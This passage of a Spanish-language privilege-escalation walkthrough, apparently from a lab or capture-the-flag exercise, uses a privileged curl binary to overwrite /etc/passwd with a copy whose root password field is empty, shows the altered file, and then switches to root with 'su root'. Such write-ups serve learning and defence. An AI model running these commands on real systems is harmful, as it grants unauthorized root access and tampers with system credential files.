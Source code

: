 ```bash
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
```

Ahora nos aprovechamos del binario de **curl** para sobreescribir el **passwd** original.
```bash
/usr/bin/curl file:///tmp/passwd -o /etc/passwd
```

Si ahora miramos el contenido del archivo lo hemos logrado sobreescribir:
```bash
cat /etc/passwd # Archivo malicioso

root::0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
```

Ahora podemos aprovecharnos para migrar a **root** sin proporcionar contrasena
```bash
# Comando para escalar al usuario: ( root )
su root
```

---